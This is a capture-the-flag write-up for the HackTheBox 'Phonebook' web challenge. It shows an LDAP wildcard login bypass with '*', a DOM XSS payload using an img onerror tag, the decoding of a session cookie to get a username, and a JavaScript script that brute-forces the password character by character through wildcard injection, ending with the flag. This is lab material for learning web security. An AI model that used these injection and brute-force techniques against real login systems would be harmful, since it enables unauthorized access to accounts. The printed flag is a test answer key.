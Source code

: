 # Phonebook
> Write-up author: jon-brandy
## DESCRIPTION:
Who is lucky enough to be included in the phonebook?
## HINT:
- NONE
## STEPS:
1. First, open the host given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208025059-aa52ae7a-77bd-4517-949c-1299389c3515.png)

2. Let's try to enter the username as `admin` and the password as `admin`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208025202-d56d1c9f-d864-4e4a-9f9d-ba8bf19d7f18.png)


3. Yeah obviously we failed, but notice at the url parameter.
4. The message parameter has `Authentication failed` as the value.

![image](https://user-images.githubusercontent.com/70703371/208025396-88d42c54-31e6-42fb-9dc0-5241a1dafe13.png)


5. Also there's a note from Reese:

![image](https://user-images.githubusercontent.com/70703371/208025598-3c03e023-b1bb-4768-a2db-184f9b51fb7f.png)


6. After did several SQLi command, i found that when i entered both username and password as `*`. We successfully logged in! With this we know that the website is using LDAP Authentication. We can utilize that to bruteforce the website.

> LOGGED IN


![image](https://user-images.githubusercontent.com/70703371/208936585-62d4177c-707c-4470-8e20-851567f67fb2.png)


7. Let's check for `Reese`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208937586-429c5925-2e95-4692-964f-6551f45df490.png)


8. Well got no clue.
9. Let's go back to the login page.
10. I tried to change the message parameter.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208938935-a6702a0b-07e3-4d69-8a69-64a821b40c69.png)



11. It changed, maybe it's related to **XSS** (?)
12. When i entered a simple xss payload, we got nothing.
13. But when i tried to enter xss with the <img> tag. Got this result:

```
<img src/onerror=prompt(8)>
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208939632-5363988c-7ec4-427e-94e1-a3c1fc4ef20f.png)


14. Great we can conclude that the website is vulnerable to XSS.
15. And the type of XSS is DOM XSS, means the vulnerability exists in client-side code.

![image](https://user-images.githubusercontent.com/70703371/208940055-df448d9f-e438-4353-b200-57f8160c96e6.png)


16. Now how to get the correct username?? I think it's a luck, when i tried to see the cookies after i logged in using `*` as username and pass.

> COOKIE

```
MTY3MTYzNjczNnxEdi1CQkFFQ180SUFBUkFCRUFBQUpfLUNBQUVHYzNSeWFXNW5EQW9BQ0dGMWRHaDFjMlZ5Qm5OMGNtbHVad3dIQUFWeVpXVnpaUT09fNLEZJsY2tV2A42nzGyxDgQtIvKJZR37B0b69fpdZvbf
```

17. Then i pasted it on cyberchef.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208943332-860aed9e-39b3-42dd-983b-3b6d00c217ca.png)


18. Decode the **base64** text.

```
Dv-BBAEC_4IAARABEAAAJ_-CAAEGc3RyaW5nDAoACGF1dGh1c2VyBnN0cmluZwwHAAVyZWVzZQ==
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208943919-a9f8faa2-32dc-4dfd-a3e8-b49d8d43e670.png)


19. Guessing the username as `reese`.
20. Then bruteforce the password using javascript.

> THE SCRIPT

```js
function getFlag()
{
    //console.clear();
    var strings = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_' // alphabets to check
    var i, flag, req; 
    for (i = 0; i < strings.length; i++) // as long as i lower than the length of strings
    {
        flag = 'HTB{' + localStorage.getItem('flag') + strings[i] + '*}'; 
        req = new XMLHttpRequest();
        req.open('POST', location.href, false);
        req.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        req.send('username=reese&password=' + flag); // Username as reese and pass as flag*

        if (req.responseURL.split('message')[1] === undefined)
        {
            localStorage.setItem('flag', localStorage.getItem('flag') + strings[i]);
        }

        console.clear(); // clear the terminal 
        console.log('HTB{' + localStorage.getItem('flag') + '}'); // concate the flag with HTB prefix -> HTB{ but without the asterisk
    }
}

var i;
for(i = 0; i < 10; i++) // iterate the func 10 times (in case the flag we got is incomplete, then increment the iteration)
{
    getFlag();
}
```

21. Before run the script, open the localStorage then add a key named `flag` and leave the value blank.
22. Now run the script at the console.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/208953908-aaa1a699-f823-404d-80fd-161c71d4ebed.png)


23. When i input the flag as answers, it turned green.
24. Means we got the correct flag!


## FLAG

```
HTB{d1rectory_h4xx0r_is_k00l}
```

## LEARNING REFERENCES:

```
https://ldap.com/
https://www.varonis.com/blog/the-difference-between-active-directory-and-ldap
```

